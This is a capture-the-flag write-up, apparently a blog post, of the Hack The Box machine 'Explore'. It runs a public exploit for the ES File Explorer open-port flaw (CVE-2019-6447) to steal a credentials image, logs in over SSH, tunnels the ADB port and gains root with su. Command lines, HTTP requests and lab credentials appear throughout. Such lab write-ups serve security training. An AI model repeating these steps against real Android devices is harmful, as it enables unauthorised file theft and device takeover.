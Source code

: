 ```yaml
---
title: "HTB explore writeup"
date: 2020-09-15T11:30:03+00:00
weight: 1
---
```


We start with a nmap scan

all ports nmap (cut):
```bash
$ nmap -p- 10.10.10.247                     
PORT      STATE    SERVICE
2222/tcp  open     EtherNetIP-1
5555/tcp  filtered freeciv
35391/tcp open     unknown
42135/tcp open     unknown
59777/tcp open     unknown
```

---

nmap with scripts on the open ports (cut): 

```bash
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
35391/tcp open     unknown
42135/tcp open     http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
```

None of the ports's can be visited from the web, except the port `59777` but that leads to a page that says forbidden. According to the nmap results, there probably is a minecraft server behind that port, so nothing too intresting there.

The only lead we have is port 42135, let's look further into it. 

---

Running searchsploit we get multiple hits, the first one that comes up seems to be the best for us, since the rest don't have the correct name. `ES File Explorer 4.1.9.7.4 - Arbitrary File Read `

---

```bash
$ searchsploit -m android/remote/50070.py
```


Looking at the code we can see a proxy rule, `proxy = {"http":"http://127.0.0.1:8080", "https":"https://127.0.0.1:8080"}`
The proxy variable is already set to the burpsuit proxy listener's port. We just need to add the proxy argument to the `requests.post` in the `httPost()` function. We can do that by adding `proxies=proxy` to the command so we get the following line:
```python
response = requests.post(url, headers=header, data=data, proxies=proxy)
```

We can run the program with the following arguments: `python3 50070.py listFiles 10.10.10.247`. We can look at our captured burp request to see what happened. 


```http
POST / HTTP/1.1
Host: 10.10.10.247:59777
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/json
Content-Length: 24

{"command": "listFiles"}
```

The exploit script is making a POST request to the ES File Explorer service with a command. We specified the listFiles command previously. 
When forwarding the request we get a list of files, which seem to be on an android system. 

While trying out a few commands from the exploit script, I stumble upon the command `listPics`. This command lists all the pics found by the ES file explorer. We see one intresting file named `creds.jpg`. We can retrieve this file by selecting the getFile command:
```bash
python3 50070.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
```

we move the `out.dat` file to creds.jpg by executing the `mv out.dat creds.jpg` command. When opening the image we see credentials for the account kristi. 
`kristi:Kr1sT!5h@Rp3xPl0r3!`
We try the credentials on ssh, port 2222

```bash
ssh -p 2222 kristi@10.10.10.247                                                                                                                                                                                                    127 ⨯
Password authentication
Password: 
:/ $ 
```
The credentials are correct and we get a shell.

---

After some googling on this file system I found this: https://book.hacktricks.xyz/mobile-apps-pentesting/android-app-pentesting/adb-commands#port-tunneling

netstat exists on ADB (which is in what we are right now, an android debugging tool of some sort). 

```bash
netstat -tuln                                                         
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp6       0      0 :::42135                :::*                    LISTEN     
tcp6       0      0 :::59777                :::*                    LISTEN     
tcp6       0      0 ::ffff:10.10.10.2:35209 :::*                    LISTEN     
tcp6       0      0 ::ffff:127.0.0.1:44971  :::*                    LISTEN     
tcp6       0      0 :::2222                 :::*                    LISTEN     
tcp6       0      0 :::5555                 :::*                    LISTEN     
tcp6       0     80 ::ffff:10.10.10.24:2222 ::ffff:10.10.14.2:60104 ESTABLISHED
tcp6       0      0 ::ffff:10.10.10.24:2222 ::ffff:10.10.14.2:60102 ESTABLISHED
udp        0      0 10.10.10.247:21625      1.0.0.1:53              ESTABLISHED
udp        0      0 0.0.0.0:5353            0.0.0.0:*                          
udp        0      0 10.10.10.247:27908      1.1.1.1:53              ESTABLISHED
udp        0      0 0.0.0.0:33083           0.0.0.0:*                          
udp6       0      0 ::ffff:10.10.10.2:43574 :::*                               
udp6       0      0 :::1900                 :::*                               
udp6       0      0 :::5353                 :::*                               
udp6       0      0 :::5353                 :::*                               
udp6       0      0 :::5353                 :::*                               
udp6       0      0 :::49675                :::*
```

We see that port 5555 is listening and that we couldn't find in the nmap scan. Let's try to connect to that port.
Since we can't access it from outside the box, let's go trough the inside and port forward it. 

```bash
ssh -p 2222 kristi@10.10.10.247 -L 5555:127.0.0.1:5555
Password authentication
Password: 
:/ $
```
It appears that we just connected to the shell, we have in a matter of fact. But we've also port forwarded the port 5555 on the box to port 5555 on our local machine. 
We can now connect to the port using adb connect localhost:5555
We connect first: `adb connect 127.0.0.1:5555`
Then we spawn a shell: `adb -s 127.0.0.1:5555 shell`
After connecting, we can run the command `su` to get root privileges.
```bash
x86_64:/ $ su
:/ # whoami
root
```

---

The user flag is located in `/mnt/user/0/primary`
The root flag is located in: `/data/root.txt`

That was all! Quite an easy box, but still a challenge researching about the ADB. Thanks for reading!

- Crunch#8996
